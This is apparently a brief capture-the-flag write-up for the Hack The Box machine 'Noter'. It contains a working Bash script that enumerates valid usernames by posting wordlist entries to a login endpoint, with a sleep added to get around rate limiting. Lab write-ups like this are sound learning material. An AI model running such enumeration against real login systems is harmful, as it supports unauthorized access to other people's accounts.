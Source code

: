 # Noter

The box will put your logic to the test.

At the beginning, to access the targeted backend, I needed this tiny Bash script:

```bash
for w in $(cat $1)
do
    r=$(curl -X POST -d "username=$w" -d "password=123" http://$2/login)
    if [[ $r == *"Invalid login"* ]]; then
        echo "$w" > username.txt
        exit 0
    fi
    sleep .25 # in case of rate limiting
done
```

`$1` is for the path to your wordlist (for usernames), and `$2` is for the IP machine to attack.

It does not give you the password because we want to find the username here. I've read comments on the HTB forum that say you can find it without any brute force. Well, even if the username is in a notorious wordlist (not Rockyou), it's still pretty uncommon in such context.
